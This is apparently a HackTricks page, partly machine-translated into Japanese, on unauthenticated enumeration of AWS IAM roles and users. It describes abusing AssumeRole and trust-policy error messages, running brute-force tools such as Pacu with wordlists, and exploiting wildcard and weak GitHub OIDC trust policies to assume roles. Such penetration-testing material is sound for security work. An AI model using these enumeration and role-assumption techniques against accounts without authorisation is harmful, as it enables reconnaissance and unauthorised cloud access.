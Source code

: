 # AWS - IAM & STS Unauthenticated Enum

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**する。
* **ハッキングトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## アカウント内のロールとユーザー名を列挙する

### ~~ロールのブルートフォース~~

{% hint style="danger" %}
**このテクニックはもはや機能しません**。ロールが存在していても、次のエラーが常に表示されます：

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

次を実行して**テスト**できます：

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

必要な権限なしで**ロールを仮定**しようとすると、AWSはエラーメッセージを返します。たとえば、権限がない場合、AWSは次のように返すかもしれません：
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
このメッセージは、ロールの存在を確認しますが、その前提ロールポリシーがあなたの前提を許可していません。一方、**存在しないロールを前提としようとすると、異なるエラーが発生します**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
興味深いことに、既存の役割と存在しない役割との**区別**方法は、異なるAWSアカウント間でも適用可能です。有効なAWSアカウントIDとターゲットワードリストを使用すると、特定の制限に直面せずにアカウント内の役割を列挙できます。

この[スクリプトを使用して潜在的なプリンシパルを列挙](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum)することで、この問題を悪用できます。

### 信頼ポリシー：クロスアカウントの役割とユーザーを総当たり攻撃

IAMロールの信頼ポリシーを構成または更新するときは、そのロールを**仮想的に引き受けることが許可されるAWSリソースやサービスを定義**する必要があります。ポリシー内で指定されたリソースが**存在する**場合、信頼ポリシーは**正常に保存**されます。しかし、リソースが**存在しない**場合、無効なプリンシパルが提供されたことを示す**エラーが生成**されます。

{% hint style="warning" %}
このリソースでは、クロスアカウントの役割またはユーザーを指定できます:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

これはポリシーの例です:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

これは、**存在しないロール**を使用すると見つかる**エラー**です。ロールが**存在**する場合、ポリシーは**エラーなし**で**保存**されます。（エラーは更新時に発生しますが、作成時にも同様に機能します）

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
You can automate this process with [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Our using [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* The `admin` role used in the example is a **role in your account to by impersonated** by pacu to create the policies it needs to create for the enumeration

### Privesc

In the case the role was bad configured an allows anyone to assume it:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
## サードパーティOIDCフェデレーション

攻撃者はそれを仮定することができます。

**Github Actions workflow**を読み取ることに成功し、**AWS**内の**role**にアクセスしていると想像してください。\
この信頼は、次の**trust policy**を持つロールへのアクセスを提供するかもしれません：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
この信頼ポリシーは正しいかもしれませんが、**さらなる条件の不足**から疑念を抱くべきです。\
これは以前のロールが**Github Actionsの誰でも**によって想定される可能性があるためです！組織名、リポジトリ名、環境、ブランチなど、条件に他の情報も指定すべきです。

別の潜在的なミス構成は、次のような条件を**追加する**ことです：
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
注意してください **コロン** の前の **ワイルドカード** (\*)。**org\_name1** のような組織を作成し、Github Action から **役割を仮定** することができます。

## 参考文献

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [Discord グループ](https://discord.gg/hRep4RUj7f)** に参加するか、[telegram グループ](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) をフォローする
* **HackTricks** と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を提出して、あなたのハッキングトリックを共有してください。

</details>
